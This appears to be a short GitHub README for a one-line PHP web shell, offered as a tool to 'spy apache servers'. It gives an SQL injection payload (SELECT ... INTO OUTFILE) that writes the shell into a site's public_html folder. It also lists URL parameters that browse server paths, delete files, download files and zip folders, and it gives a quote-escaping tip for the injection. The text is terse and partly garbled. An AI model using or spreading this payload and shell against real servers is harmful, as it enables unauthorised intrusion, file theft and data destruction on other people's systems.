# SHEL | one line | single File | using PHP to spy apache servers
SHELL compatible with injection SQL

LIKE : `SELECT "'.$phpString.'" INTO OUTFILE "public_html/shell.php"`

# USING

to read path   `?path=c://`

to delete file `?unlink=public_html/shell.php`

to read file   `?download=public_html/shell.php`

to zip folder `?path=public_html/&destination=name_zip_file`

# SQL injection

$phpString = ' replace all char ' with \\' ';
